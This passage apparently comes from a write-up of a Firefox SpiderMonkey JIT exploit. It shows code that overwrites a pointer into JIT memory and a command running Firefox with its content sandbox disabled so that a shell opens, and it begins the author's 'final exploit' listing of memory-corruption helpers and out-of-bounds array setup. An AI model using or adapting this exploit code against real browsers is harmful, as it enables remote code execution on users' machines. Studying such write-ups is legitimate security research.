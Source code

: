 ```js
found = true;
console.log(off);

if (found) {
    write(f_ptr, int2arr(jitcode + off + 14n));
    console.log((jitcode + off + 14n).toString(16));
} else {
    console.log("Marker not found");
}
jitter()
```

`MOZ_DISABLE_CONTENT_SANDBOX=1 ./obj/release/dist/bin/firefox ./sploit.html`
A shell will open on the command line once the script loads and runs.

## Final Exploit

My full, final exploit is below:
```js
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    // console.log(val)
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function arr2int(a, full) {
    let res = BigInt(0);
    for (var i = 0; i < a.length; i++) {
        res += BigInt(BigInt(a[i]) << BigInt(8*i));
    }
    // SpiderMonkey JS values have their top 11 bits as tags
    // If we want a JSValue we must remove these, else we can read
    // the full qword
    if (full) return res;
    return res & 0xffffffffffffn;
}

function int2arr(a) {
    let res = [];
    for (var i = 0; a > 0n; i++) {
        res[i] = a & 0xffn;
        a = a >> 8n;
    }
    return res;

}

let floatArr = [1.1, 2.2, 3.3, {b:1}]
let objArr = [{a:1}, {a:2}, {b:2}]
let typedArr = new Uint8Array(300);

// Resolve floatArr OOB index
```